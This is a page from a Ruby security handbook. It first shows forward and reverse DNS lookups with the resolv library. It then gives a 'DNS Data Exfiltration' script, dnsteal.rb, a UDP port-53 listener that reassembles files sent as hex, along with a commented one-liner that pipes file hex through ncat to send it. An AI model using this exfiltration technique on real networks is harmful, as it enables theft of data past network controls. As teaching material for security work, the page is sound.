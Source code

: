 # DNS 

## DNS lookup 
### Forward DNS lookup (Host to IP)
```ruby
require 'resolv'
Resolv.getaddresses "rubyfu.net"
```
Returns array of all IPs
```
["23.23.122.48", "107.20.161.48", "174.129.41.187"]
```
or use `Resolv.getaddress` to get one address only

### Reverse DNS lookup (IP to Host)
```ruby
require 'resolv'
Resolv.getnames "23.23.122.48"
```
Returns array of all hostnames, if PTR is assigned 
```
["ec2-174-129-41-187.compute-1.amazonaws.com"]
```

or use `Resolv.name` to get one name only


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Run it 
```
ruby dnsteal.rb image.jpg
```




---
- [dnsteal.py](https://github.com/m57/dnsteal)
